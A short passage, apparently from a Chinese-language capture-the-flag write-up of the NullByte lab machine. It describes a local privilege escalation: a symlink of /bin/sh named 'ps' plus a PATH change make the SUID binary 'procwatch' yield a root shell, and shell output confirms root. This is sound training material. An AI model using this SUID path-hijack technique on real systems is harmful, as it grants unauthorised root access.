 - 使用软链接将`/bin/sh`连接到ps中，并添加当前路径，由于文件具有`suid`权限，所以在执行这一步后会获得`root`权限

- ```shell
  ramses@NullByte:/var/www/backup$ ./procwatch 
  # whoami
  root
  # uname -a
  Linux NullByte 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt11-1+deb8u2 (2015-07-17) i686 GNU/Linux
  # ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
      link/ether 00:0c:29:98:28:e2 brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.3/24 brd 192.168.2.255 scope global eth0
         valid_lft forever preferred_lft forever
      inet6 fe80::20c:29ff:fe98:28e2/64 scope link 
         valid_lft forever preferred_lft forever
  #
  ```

-   
